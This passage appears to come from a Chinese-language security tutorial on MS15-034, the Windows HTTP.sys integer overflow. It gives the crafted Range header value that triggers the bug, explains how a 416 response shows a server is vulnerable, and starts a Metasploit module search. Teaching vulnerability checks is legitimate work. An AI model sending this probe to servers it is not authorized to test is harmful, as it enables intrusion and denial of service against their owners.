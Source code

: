 80（HTTP）</span></section></td></tr><tr style="color: rgb(89, 89, 89);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><code><span leaf="">-H &#34;Host:irrelevant&#34;</span></code></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">添加 HTTP 头部，伪造 Host 字段为 &#34;irrelevant&#34;（此值不影响漏洞触发）</span></section></td></tr><tr style="color: rgb(89, 89, 89);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><code><span leaf="">-H &#34;Range:bytes=0-18446744073709551615&#34;</span></code></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><font mstmutation="1" msttexthash="649226812" msthash="41308"><span leaf="">关键部分：构造 </span><strong mstmutation="1" style="color: rgb(53, 148, 247);font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgba(0, 0, 0, 0);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;margin-top: 0px;margin-bottom: 0px;margin-left: 0px;margin-right: 0px;padding-top: 0px;padding-bottom: 0px;padding-left: 0px;padding-right: 0px;border-top-style: none;border-bottom-style: none;border-left-style: none;border-right-style: none;border-top-width: 3px;border-bottom-width: 3px;border-left-width: 3px;border-right-width: 3px;border-top-color: rgba(0, 0, 0, 0.4);border-bottom-color: rgba(0, 0, 0, 0.4);border-left-color: rgba(0, 0, 0, 0.4);border-right-color: rgba(0, 0, 0, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><span leaf="">异常范围请求</span></strong><span leaf="">，试图从第 0 字节读到  字节，这是远超正常范围的非法请求，会触发 HTTP.sys 的整数溢出漏洞</span></font><code><span leaf="">2^64 - 1</span></code></td></tr></tbody></table>  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB2ZbA2ficnT5XuEAPcdohWNCjBt6WedPvF1bLImAgYKiaPNkVnWY5FY5Q/640?wx_fmt=png&from=appmsg "")  
如果出现416和Requested Range Not Satisfiable，则证明存在漏洞，反之，则不存在  
## msf寻找漏洞  
### 搜索模块  
```
msfconsole
msf6>search MS15-034

```  
  